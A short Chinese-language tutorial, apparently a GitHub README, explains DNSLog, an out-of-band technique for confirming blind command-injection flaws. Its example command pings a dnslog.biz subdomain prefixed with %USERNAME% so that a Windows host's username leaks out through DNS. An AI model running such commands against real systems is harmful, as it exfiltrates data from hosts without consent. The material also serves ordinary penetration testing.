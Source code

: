 ## 简介

DNSLog可以检测无回显的漏洞。

原理是DNS服务器会存储DNS解析日志，如果某个主机向DNS服务器申请DNS解析的请求，就回记录下来这个解析日志。只要在真正对域名前加上一些当前主机会执行的命令，就可以在DNSLog上看到主机执行的命令的结果。

## 用法

进入DNSLog网站，https://dnslog.org/

获得子域名，例如22ecbc5e.dnslog.biz

用当前主机ping子域名，并加上可执行的命令。

```bash
ping %USERNAME%.22ecbc5e.dnslog.biz  //windows可执行的命令
```

然后在网站中刷新log信息，就可以看到%USERNAME%的执行结果